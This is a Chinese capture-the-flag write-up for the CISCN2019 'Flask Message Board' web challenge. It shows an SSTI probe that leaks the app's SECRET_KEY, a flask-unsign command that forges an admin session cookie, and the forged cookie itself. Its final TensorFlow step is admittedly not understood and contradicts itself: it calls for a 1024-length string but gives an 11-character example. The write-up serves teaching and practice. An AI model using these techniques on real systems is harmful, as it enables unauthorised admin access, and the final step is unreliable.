





# \[CISCN2019 总决赛 Day1 Web3]Flask Message Board(\*)

## \[CISCN2019 总决赛 Day1 Web3]Flask Message Board

## 考点

* Flask session伪造
* TensorFlow模型攻击

## wp

题目已经说明是个Flask的站点，那可能存在SSTI和Flask Session伪造

在右侧留言板随便输一些内容，结果被拒绝，下面也写了这里是有bot检测输入的



Fuzz了一波，发现这里无论输入什么都会提示被拒绝，但是`Title`、`Author`和`Content`里面输入`1+1`就不会，并且回显的是`Author`的内容。



并且对session进行解密，内容是

```
{'admin': False}
```

大概率是要伪造admin了，在`Author`测试SSTI，直接上`{{config}}`




```
 'SECRET_KEY': '1Ii1|1|l1IliilI||iIli|l|iIIi1I1ll1|1lIi1'
```

使用`flask-unsign`伪造session

`flask-unsign --sign --cookie "{'admin': True}" --secret "1Ii1|1|l1IliilI||iIli|l|iIIi1I1ll1|1lIi1"`

结果

```
eyJhZG1pbiI6dHJ1ZX0.YBEFFA._EzwGG57OrghZrI9PTJv5uNm0hI
```

然后可以成功访问`/admin`，可以看到是个网站管理的页面，还有一个模型上传的功能



F12就看到一些提示

```
Todo: add /admin/model_download button 
<a href="/admin/source_thanos">Open Source</a>
 
zip file with detection.meta detection.index detection.data-00000-of-00001 3 TensorFlow(1.12) files! 

The model need x:0 to input a number , and y:0 to output the result "Human" or "Bot" 
```

访问`/admin/model_download`可以把模型下载下来，源码则在`/admin/source_thanos`，最后是TensorFlow模型分析，说实话没搞懂。

直接说结果，在`Content`输入一个长度为1024的字符串，例如`aaaaaabxCZC`，在`Title`、`Author`和`Content`都输入`aaaaaabxCZC`即可看到flag。



## 小结

1. 结合新新东西出的web
2. TensorFlow模型攻击没搞懂，标注一下
